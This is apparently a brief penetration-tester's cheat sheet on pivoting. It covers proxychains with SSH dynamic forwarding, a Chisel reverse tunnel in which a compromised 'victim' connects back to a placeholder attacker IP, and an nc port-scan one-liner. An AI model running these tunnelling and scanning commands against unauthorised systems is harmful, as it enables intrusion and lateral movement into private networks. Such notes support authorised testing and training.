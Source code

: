 ﻿
### **Proxychains**:
1. Edit **last** **line** for */etc/proxychains4.conf*
2. **Add socks4** proxy for localhost and desired port
3. **Dynamic** **SSH Forwarding**:
a. ssh -NfD [desired_port] user@middle_machine

### **Chisel**:
1. **From attacker:**
a. chisel server -p 8000 --reverse
2. **From victim:**
a. chisel client attacking_ip:8000 R:listening_port:victim_ip:target_port

### **nc Port scan:**
nc -z -w 1 -v IP PORTRANGE (start-end) 2>&1 | grep -I succeeded
